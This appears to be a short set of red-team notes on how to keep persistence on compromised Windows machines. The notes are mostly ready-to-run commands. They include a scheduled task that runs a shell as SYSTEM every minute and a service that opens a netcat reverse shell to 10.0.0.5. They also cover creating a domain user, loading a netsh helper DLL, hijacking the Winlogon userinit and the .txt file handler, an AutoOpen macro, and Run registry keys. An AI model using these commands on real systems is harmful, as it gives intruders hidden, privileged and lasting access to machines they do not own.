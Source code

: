- `schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"` command can be used to schedule a command to get executed every duration of time or interval of time.The issue is that all processes under this command are spawned with the parent process as `taskeng.exe`.

- Create an evil service with:

```
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```

- We can use the invoking of Sticky Keys as the triggering mechanism as we will change the path of the binary from `sethc.exe` to our malicious binary path.

- We can create new users and use them for storing our payloads. `net user test test123 /add /domain`.

- We can use the AddMonitor() technique for persistence.

- Just use this command `.\netsh.exe add helper C:\tools\NetshHelperBeacon.dll` after having the dll on the system.

- Registry keys:

```
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```
- Just replace the HKCU to HKLM inside these registry keys and we will get system wide persistence.

- Or just add our malware to the init process launches -> `reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f`

- Extension hijacking;
    - `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` is the registry key having the %1 written after it so that the notepad.exe will open the file with the name %1 or the file which is double clicked at that moment.
    - But if we change it to the `<malicious file> %1` then our malicious file will also get executed alongwith the .txt file and it will thus open our file.

- We can add this AutoOpen() VBA function inside any word or office document to get the VBA code executed everytime I use any template or open the document.

```
Sub AutoOpen()
MsgBox "Ohai from the template"
End Sub
```

- Registry key: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` specifies what to run at startup.

